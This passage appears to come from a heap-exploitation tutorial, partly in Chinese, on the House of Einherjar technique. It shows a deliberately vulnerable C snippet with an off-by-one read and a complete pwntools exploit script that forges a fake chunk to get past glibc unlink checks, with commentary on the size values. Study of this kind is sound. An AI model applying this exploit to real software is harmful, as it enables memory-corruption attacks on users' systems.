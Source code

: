 ```c++
    printf("input s1\n");
    read(0, s1, 0x19); //Off By One
    free(s2);
    return 0;
}
```

**EXPLOIT:**

```python
from pwn import *

p = process("./example")
context.log_level = 'debug'
#gdb.attach(p)
p.recvuntil("begin\n")
address = int(p.recvline().strip(), 16)
p.recvuntil("input s0\n")
payload = p64(0) + p64(0x101) + p64(address) * 2 + "A"*0xe0
'''
p64(address) * 2是为了绕过
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
  malloc_printerr ("corrupted double-linked list");
'''
payload += p64(0x100) #fake size
p.sendline(payload)
p.recvuntil("input s1\n")
payload = "A"*0x10 + p64(0x220) + "\x00" # 0x200 <- 0x200（s0)+0x20(s1)
p.sendline(payload)
p.recvall()
p.close()
```

其中，绕过unlink检测方法和利用unlink漏洞时采用的不一样：

```c
// unlink
 p->fd = &p-3*4
 p->bk = &p-2*4
// Einherjar, 此处没有得到 &p, 所以有下面的操作
p->fd = p
p->bk = p
```

此外，

`payload = p64(0) + p64(0x101) + p64(address) * 2 + "A"*0xe0`可以替换成`payload = p64(0) + p64(0x221) + p64(address) * 2 + "A"*0xe0`, 通过计算实际上0x221才是合理的值，0x101也可以的原因是对 size 和 prev_size 的验证只发生在 unlink 里面，而 unlink 里面是这样验证的:

```c++
if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");
```

